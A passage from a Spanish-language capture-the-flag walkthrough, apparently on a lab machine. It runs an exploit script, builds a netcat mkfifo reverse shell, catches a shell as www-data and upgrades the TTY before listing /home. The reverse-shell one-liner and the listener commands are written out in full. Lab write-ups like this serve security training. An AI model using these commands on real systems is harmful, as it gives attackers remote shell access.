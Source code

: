 ```shell
root@ip-10-201-117-25:~/Downloads# python2 47138.py 
cmd:
```

Ahora procedemos a buscar ahora un generador de reverse shell, encontrando la página Reverse Shell Generator (https://www.revshells.com/), donde se configura el tipo de reverse shell *nc mkfifo*, y una vez que lo configuramos resulta en lo siguiente:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.201.117.25 1234 >/tmp/f
```

Abrimos una nueva ventana del terminal y procedemos a ejecutar el listener con el siguiente comando: **nc -lvnp 1234**.

```shell
root@ip-10-201-117-25:~/Downloads# nc -lvnp 1234
listening on [any] 1234 ...

```

Ahora si procedemos a colocar el reverse shell donde se había quedado a la espera la primer ventana

```shell
root@ip-10-201-117-25:~/Downloads# python2 47138.py
cmd: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.201.117.25 1234 >/tmp/f

```

Como podemos apreciar, ya se logró la conexión, ya que se muestra esto en la ventana donde corrimos el listener:

```shell
root@ip-10-201-117-25:~/Downloads# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.201.117.25] from (UNKNOWN) [10.201.100.131] 50774
sh: 0: can't access tty; job control turned off
$
```

Una vez que se logro la conexión, procedemos a configurar el terminal para que funcione de forma correcta, todo esto se puede apreciar a continuación:

```shell
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ubuntu:/var/www/html$ export TERM=xterm
export TERM=xterm
www-data@ubuntu:/var/www/html$ 
```

Por lo que ahora ya podemos utilizar el shell para explorar la máquina, procediendo entonces a cambiarnos al directorio home yrevisar con **ls** el contenido de dicho directorio:

```shell
www-data@ubuntu:/var/www/html$ cd /home/
www-data@ubuntu:/home$ ls
www-data
```
